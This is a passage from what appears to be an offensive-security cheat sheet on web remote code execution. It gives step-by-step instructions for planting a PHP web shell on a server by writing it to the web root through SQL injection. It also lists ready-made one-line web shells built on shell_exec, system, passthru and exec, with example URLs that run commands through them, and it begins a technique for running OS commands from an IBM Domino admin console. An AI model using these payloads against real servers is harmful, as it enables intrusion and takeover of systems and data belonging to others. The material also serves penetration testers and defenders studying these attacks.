 ```
	       /var/www/html/
	       Linux server01 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64 GNU/Linux
	       <SNIP>
```

#### Technique 17. Webshell upload by exploiting a SQL injection (SQLi) vulnerability

```
Example
➤ Step 1. Find a SQL injection vulnerability on a PHP website. The following pre-requites must be met:
  	  - the underlying MySQL database is installed on the same server than the Website
  	  - the Website is using a database account that has admin privileges over the MySQL database
	  
➤ Step 2. Find or guess the Web server installation path (DocumenRoot) Web root folder (e.g., it can be found thanks to "http://x.x.x.x/<path>/phpinfo.php").
  	  - Example for Windows - XAMP = 'C:\XAMPP\htdocs\' or 'C:\XAMPP\htdocs\<website-name>\'
    	  - Example for Linux   - LAMP = '/var/www/' or '/var/www/https/<website-name>/wp-content/uploads/', etc ... 
  
➤ Step 3. Using the SQL injection vulnerability, execute the following SQL query to write the Webshell in the Web root folder of the server
  	  Examples: 
	  - Linux server   - "select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/<website-name>/uploads/Webshell.php";"
	  - Windows server - "select "< ? $c = $_GET['cmd']; $op = shell_exec($c); echo $op ? >" into outfile "C:\\XAMPP\\htdocs\\<website-name>\\Webshell.php";"

➤ Step 4. Access to the 'Webshell.php' file with your web browser and execute OS commands
          Examples:
          - http://x.x.x.x/<website-name>/uploads/Webshell.php?cmd=whoami
          - http://x.x.x.x/<website-name>/Webshell.php?cmd=whoami

Note: Several PHP functions can be used in a webshell to execute OS commands such as
+ shell_exec() function: <?php echo shell_exec($_GET['cmd']); ?>
+ system() function: <?php system($_GET['cmd']); ?>
+ passthru() function: <?php echo passthru($_GET['cmd']); ?>
+ exec() function: <?php echo exec($_POST['cmd']); ?>
```

-----------------

### II. Classic Web RCE techniques
#### Technique 1. RCE using an IBM Domino Web administration console
```
➤ Step 1. Log into the IBM Domino Web Administrator console and browse the Web Administrator database named "webadmin.nsf"
	   - https://target-IP-or-Url/webadmin.nsf
➤ Step 2. Click on "Server" and then "Status" 
➤ Step 3. Select "Quick Console" (or "Live Console")
➤ Step 4. Enter the OS command with any arguments directly in the "Domino Command" box and then click "Send"
```
